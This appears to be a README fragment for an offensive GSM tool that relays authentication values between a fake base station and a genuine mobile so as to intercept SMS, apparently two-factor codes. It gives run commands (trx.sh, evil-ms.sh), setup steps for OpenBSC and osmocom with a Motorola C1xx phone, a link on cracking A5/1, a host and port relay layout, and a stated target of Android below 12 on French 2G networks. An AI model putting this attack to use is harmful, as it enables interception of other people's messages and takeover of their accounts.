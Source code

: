``` {.sourceCode .bash}
tmux
cd /
bash trx.sh
ctrl-b c 
./evil-ms.sh
```

set IMSI in OpenBSC (via telnet) and in /root/.osmocom/bb/mobile.cfg and
set any ki but set one in OpenBSC need a motorola c1\*\* and a sim
reader

What happen next ?

[Crack A5/1](https://brmlab.cz/project/gsm/deka/attack-implementation)

5s to crack it before the Kc ciphered channel timeout has been gone and
if it is done we have incomming SMS.

Targets android \< 12, telco 2G until 2025 in France

Thank for reading !

Clients-servers architecture :
==============================

``` {.sourceCode .}
bsc-2rfa 172.17.0.2
server rand 888 listen on 0.0.0.0
client sres 666 -> 172.17.0.3

bb-2rfa 172.17.0.3
client rand 888 -> 172.17.0.2
server sres 666 listen on 0.0.0.0
server kc 777 listen on 0.0.0.0

osmocom-genuine-ms 172.17.0.2
client kc 777 -> 172.17.0.3
```

Headers :
=========

suppress\_space.h

``` {.sourceCode .c}
#include <stdio.h>
char res[100];
char* spaces(char str [])
{
int i = 0;int j = 0;
       while (str[i] != '\0')
       {
          if ((str[i] == ' ') != 1) {
            res[j] = str[i];
            j++;
          }
          i++;
       }
       res[j] = '\0';
return res;}
```
